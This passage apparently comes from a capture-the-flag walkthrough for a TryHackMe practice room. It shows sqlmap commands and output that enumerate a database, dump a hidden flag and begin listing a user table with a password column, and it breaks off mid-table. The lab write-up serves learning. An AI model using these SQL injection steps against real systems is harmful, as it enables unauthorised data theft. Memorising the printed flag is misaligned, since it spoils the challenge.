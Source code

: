 We found a database named `THM_f0und_m3`, so let's dump the tables:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/CTF_collection_Vol.2/files]
└─$ sqlmap -r req.xml -D THM_f0und_m3 --tables

[REDACTED]

Database: THM_f0und_m3
[2 tables]
+----------------+
| user           |
| nothing_inside |
+----------------+
~~~

Now let's see the structure of `nothing_inside` table:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/CTF_collection_Vol.2/files]
└─$ sqlmap -r req.xml -D THM_f0und_m3 -T nothing_inside --columns

[REDACTED]

Database: THM_f0und_m3
Table: nothing_inside
[1 column]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| Easter_4 | varchar(30) |
+----------+-------------+
~~~

It only has one field. Let's dump it:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/CTF_collection_Vol.2/files]
└─$ sqlmap -r req.xml -D THM_f0und_m3 -T nothing_inside -C Easter_4 --sql-query "select Easter_4 from nothing_inside"

[REDACTED]

[08:04:11] [INFO] retrieved: THM{1nj3c7_l1k3_4_b055}
select Easter_4 from nothing_inside: 'THM{1nj3c7_l1k3_4_b055}'
~~~

Easter 4: `THM{1nj3c7_l1k3_4_b055}`

## Easter 5

Hint: Another sqli

Let's dump the other table:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/CTF_collection_Vol.2/files]
└─$ sqlmap -r req.xml -D THM_f0und_m3 -T user --columns

[REDACTED]

Database: THM_f0und_m3
Table: user
[2 columns]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| password | varchar(40) |
~~~